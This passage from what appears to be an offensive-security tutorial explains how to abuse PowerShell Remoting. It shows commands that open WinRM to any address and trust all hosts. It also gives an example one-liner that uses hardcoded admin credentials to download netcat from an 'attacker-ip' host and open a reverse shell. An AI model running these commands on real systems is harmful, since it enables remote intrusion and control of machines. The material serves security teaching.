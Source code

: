 ### 1.3 Configurations

The PowerShell remote feature can be enabled with:
```powershell
Enable-PsRemoting
```

By default, only Local Administrators of the machine can execute commands using PowerShell remoting. 
To enable the feature for non-administrators, the following command can be used:
```powershell
Set-PSSessionConfiguration Microsoft.PowerShell -ShowSecurityDescriptorUI
```
In the property sheet, change the Security Descriptor of `Microsoft-PowerShell` session configuration.

Moreover, to enable access to the service, the port tcp/5985 must be reachable
```powershell
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
```
Last thing, to Authenticate to the service, the requesting computer should be in the same domain of the target computer, or it has to be granted access to the machine.

In order to grant access to non-domain computers, the following command can be used:
```powershell
Set-Item wsman:localhost\client\trustedhosts -Value *
```

### 1.4 Wrap-it up

To summarize, in order to execute commands on a remote target running in the network, an attacker should:

* Ensure PowerShell Remote is enabled on the target
* Have visibility over port tcp/5985
* Be in the same domain of the target machine or controlling a computer which has been granted access to the functionality
* Own valid local administrator credentials

## 2. Abusing PSRemoting

It's pretty simple to understand why this functionality is so interesting: it gives immediate code execution capabilities on a remote target.
However, it's not always as simple as it seems. In real life scenarios, having PowerShell remoting access to a machine doesn't mean that the attacker can directly obtain a reverse shell. Considering the following example:
```powershell
$pass=(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force); $cred=(New-Object System.Management.Automation.PSCredential("TEST\Administrator", $pass)); Invoke-Command -ComputerName pc-1 -Credential $cred -ScriptBlock { wget http://attacker-ip/nc.exe -O C:\Users\Public\nc.exe; C:\Users\Public\nc.exe -e C:\Windows\system32\nc.exe attacker-ip 4444 }
```

Considering a default setup of Windows 10 or Windows 2019, what can go wrong?

- A/V Defender intercepts NetCat and blocks it
- If configured, Windows Lockdown Policy can identify NetCat as "untrusted code", preventing it from executing on the system
